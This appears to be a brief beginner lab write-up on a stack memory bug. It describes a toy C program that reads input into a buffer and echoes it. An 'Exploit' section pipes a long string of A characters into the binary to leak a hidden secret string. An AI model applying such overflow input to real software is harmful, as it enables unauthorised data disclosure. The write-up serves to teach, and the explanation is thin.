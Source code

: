 # Stack 

### Example:

<script src="https://gist.github.com/n41n4/496691de46d5202aec5585a722763ffa.js?file=snippet.c"></script>

### AIM:
To print the secret.

### Analysis
Execution flow of above example
1. A secret variable is created with some secret value.
2. Then a buffer is initialized with the capacity of 128.
3. User input will be stored in buffer variable using `read` function.
3. Finally User input will be echoed back with welcome using printf.

```bash
inc0gn1t0@inc0gn1t0-VirtualBox:~/Redacted$ ./snippet 
Guest
Welcome Guest
```

### Exploit:


```bash

inc0gn1t0@inc0gn1t0-VirtualBox:~/Redacted$ echo "AAAAAAAAAAAAA......AAAAAAAA" | ./secret 
Welcome AAAAAAAAAAAAA......AAAAAAAASup3r_S3cr37_S7r1n6

```

### Explanation
Here the culprit is `read` function.In this context `read` is used to take input from user.


